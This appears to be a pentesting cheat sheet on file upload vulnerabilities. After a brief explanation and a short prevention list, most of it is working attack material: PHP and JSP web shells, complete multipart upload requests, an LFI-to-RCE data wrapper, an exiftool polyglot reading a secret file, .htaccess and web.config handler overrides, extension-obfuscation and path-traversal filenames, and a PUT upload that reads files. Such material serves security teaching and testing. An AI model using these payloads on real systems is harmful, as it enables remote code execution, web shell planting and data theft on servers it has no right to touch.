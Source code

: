 # Description
**File Upload Vulnerability** occurs when a web application allows a user to upload files without properly validating or restricting the file type, content, or destination. This can enable an attacker to upload malicious files, such as web shells, scripts, or executable binaries, leading to remote code execution, data breaches, or defacement.

### How Does File Upload Vulnerability Occur?

1. **Lack of File Type Validation**: The web application does not check the file type, allowing any kind of file (e.g., PHP, JSP, EXE) to be uploaded.
2. **Insecure File Storage Location**: Uploaded files are stored in directories that are accessible to the web server, allowing execution of the uploaded code.
3. **Weak File Name Validation**: The application does not sanitize the file name, allowing special characters or file extensions to be used.
4. **Content-Type Header Manipulation**: If the application relies solely on the `Content-Type` header to validate the file type, an attacker can manipulate the header to bypass the validation.
5. **Insufficient Server-Side Checks**: Validation is performed on the client side, which can be easily bypassed by an attacker.

### Where to Put a File Upload Payload?

The payload is uploaded as a file through an HTTP request where the application allows file uploads. Typically, you upload the payload in places like:
- **Profile picture upload forms**
- **Document upload forms**
- **Image galleries**
- **Resume or CV submission fields**
- **Custom file submission forms**

### Examples of HTTP Requests with File Upload Payloads

Here are some examples of HTTP requests for uploading a file with a malicious payload:

#### 1. PHP Web Shell Upload

Uploading a simple PHP script as a file to get remote code execution.

**Malicious File Content (`shell.php`):**
```php
<?php echo shell_exec($_GET['cmd']); ?>
```

**Example HTTP Request:**
```http
POST /upload HTTP/1.1
Host: vulnerable-website.com
Content-Type: multipart/form-data; boundary=---------------------------12345
Content-Length: 221

-----------------------------12345
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/x-php

<?php echo shell_exec($_GET['cmd']); ?>
-----------------------------12345--
```
In this example, the attacker uploads a file named `shell.php` that contains a PHP web shell. If the server stores the file in a web-accessible location, the attacker can execute commands by accessing `http://vulnerable-website.com/uploads/shell.php?cmd=ls`.

#### 2. Image Upload with Embedded PHP Code

Uploading an image file that contains embedded PHP code with a manipulated file extension.

**Malicious File Content (`image.php.jpg`):**
```php
<?php system($_GET['cmd']); ?>
```

**Example HTTP Request:**
```http
POST /upload HTTP/1.1
Host: vulnerable-website.com
Content-Type: multipart/form-data; boundary=---------------------------98765
Content-Length: 245

-----------------------------98765
Content-Disposition: form-data; name="file"; filename="image.php.jpg"
Content-Type: image/jpeg

<?php system($_GET['cmd']); ?>
-----------------------------98765--
```
The attacker uploads a file named `image.php.jpg`. If the server incorrectly identifies the file based on its extension rather than content, the attacker may execute commands by navigating to the uploaded file's URL.

#### 3. Bypassing Content-Type Validation

Some web applications check the `Content-Type` header to validate the file type. The attacker can manipulate the header to bypass this check.

**Malicious File Content (`shell.jsp`):**
```jsp
<% out.println("Command execution: " + Runtime.getRuntime().exec(request.getParameter("cmd"))); %>
```

**Example HTTP Request:**
```http
POST /upload HTTP/1.1
Host: vulnerable-website.com
Content-Type: multipart/form-data; boundary=---------------------------54321
Content-Length: 256

-----------------------------54321
Content-Disposition: form-data; name="file"; filename="shell.jsp"
Content-Type: image/jpeg

<% out.println("Command execution: " + Runtime.getRuntime().exec(request.getParameter("cmd"))); %>
-----------------------------54321--
```
Here, the attacker uploads a JSP file disguised with a `Content-Type` of `image/jpeg`, hoping that the server only checks the header and not the actual content of the file.

### Preventing File Upload Vulnerabilities

To mitigate file upload vulnerabilities:
1. **Restrict File Types**: Allow only specific, safe file types (e.g., images, documents) and validate the file type server-side.
2. **Rename Uploaded Files**: Generate unique, randomized file names and avoid using the original file name.
3. **Store Files Outside the Web Root**: Keep uploaded files outside directories accessible by the web server to prevent direct access.
4. **Scan Uploaded Files**: Use antivirus or security tools to scan for malicious content.
5. **Limit File Size and Type**: Set restrictions on the maximum file size and check the content against expected MIME types.

File upload vulnerabilities can lead to severe security issues, making it essential to implement strong validation and handling measures.

# PHP Payloads for RCE

## Normal Payloads
```php
<?php echo file_get_contents('/etc/passwd'); ?> >> To read files
<?php system($_GET['cmd']); ?> >> For system command
<?php passthru($_GET['cyborg71']); ?> >> For system command*
php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+&cmd=ls >> LFI to RCE
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" hacker.jpg -o polyglot.php

```
## Exploiting Server Configuration
___
### Apache Bypass
```
Step 1 >>
filename=".htaccess"
Content-Type: text/plain
AddType application/x-httpd-php .shell
Step 2 >>
Content-Type: application/x-httpd-php
<?php system($_GET['cmd']); ?>
```
### IIS Bypass
```
Step 1 >>
filename="web.config"
Content-Type: text/plain
<configuration>
    <system.webServer>
        <staticContent>
            <mimeMap fileExtension=".php" mimeType="application/x-httpd-php" />
        </staticContent>
    </system.webServer>
</configuration>
Step 2 >>
Content-Type: application/x-httpd-php
<?php system($_GET['cmd']); ?>
```
## Obfuscating File Extensions
```
.php
.php3
.php4
.php5
.pHp
.shtml
.php.jpg
.php.png
%2Ephp
.php;.jpg
.php;.png  
.php%00.jpg
.php%00.png
.p.phphp
```
### Uploading files via path traversal vulnerability
In some cases you can exploit file upload vulnerability via path traversal. ```filename="../exploit.php"``` or url encoding ```filename="..%2fexploit.php```.
### Uploading files using PUT
```txt
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php echo file_get_contents('/path/to/file'); ?>
```
